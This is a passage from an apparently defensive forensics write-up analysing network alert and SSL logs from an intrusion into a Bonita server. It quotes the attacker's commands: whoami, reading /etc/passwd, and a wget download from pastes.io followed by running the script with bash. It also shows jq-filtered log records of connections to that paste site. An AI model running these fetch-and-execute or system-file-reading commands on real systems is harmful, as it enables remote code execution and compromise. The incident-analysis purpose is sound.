 #### Commands

Immediately after the forth POST there’s a GET to `/bonita/API/extensions/rce` with a command and the results come back:

![image-20240422135404187](/img/image-20240422135404187.png)

The four commands run are:
- `whoami`
- `cat /etc/passwd`
- `wget https://pastes.io/raw/bx5gcr0et8`
- `bash bx5gcr0et8`

The first is likely just testing for successful RCE. Then the next downloads a script from `pastes.io` (Task 7) and then runs it.

#### Other Logs

I noted [earlier](#suricata-alert-events-1) that two logs didn’t fit the format of the alert events. I’ll filter to those two logs with `jq`:

```

oxdf@hacky$ cat meerkat-alerts.json | jq '.[] | select(.event_type != "alert")'
{
  "_path": "ssl",
  "ts": "2023-01-19T15:39:18.512608Z",
  "uid": "ClRMBz4nXJeb8aRpG5",
  "id": {
    "orig_h": "172.31.6.44",
    "orig_p": 33220,
    "resp_h": "66.29.132.145",
    "resp_p": 443
  },
  "version": "TLSv13",
  "cipher": "TLS_AES_256_GCM_SHA384",
  "curve": "x25519",
  "server_name": "pastes.io",
  "resumed": true,
  "last_alert": null,
  "next_protocol": null,
  "established": true,
  "cert_chain_fuids": null,
  "client_cert_chain_fuids": null,
  "subject": null,
  "issuer": null,
  "client_subject": null,
  "client_issuer": null,
  "validation_status": null,
  "ja3": "4ea056e63b7910cbf543f0c095064dfe",
  "ja3s": "15af977ce25de452b96affa2addb1036"
}
{
  "_path": "ssl",
  "ts": "2023-01-19T15:38:53.080341Z",
  "uid": "ClMsQevtaFqIkwki4",
  "id": {
    "orig_h": "172.31.6.44",
    "orig_p": 55330,
    "resp_h": "66.29.132.145",
    "resp_p": 443
  },
  "version": "TLSv13",
  "cipher": "TLS_AES_256_GCM_SHA384",
  "curve": "x25519",
```